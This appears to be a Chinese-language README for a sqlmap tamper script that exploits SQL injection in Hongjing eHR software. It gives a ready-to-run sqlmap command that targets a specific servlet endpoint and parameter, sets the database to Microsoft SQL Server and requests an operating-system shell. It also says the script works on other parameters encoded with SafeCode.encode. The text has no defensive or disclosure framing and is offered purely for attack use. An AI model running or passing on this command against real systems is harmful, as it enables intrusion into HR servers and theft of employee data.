 # ehr_SafeCodeEncode_tamper
宏景ehr sql注入的tamper脚本（sqlmap使用）

# 使用方法

将该脚本放在sqlmap/tamper/目录下

使用命令开始注入
```
python3 sqlmap.py -u "http://x.x.x.x/servlet/codesettree?categories=1&codesetid=1&flag=c&parentid=-1&status=1"  -p categories --dbms="Microsoft SQL Server" --tamper ehr_SafeCodeEncode_tamper  --os-shell --level 3
```

注：其他注入点如果也通过SafeCode.encode方法编码的话，也可以利用该脚本进行注入。
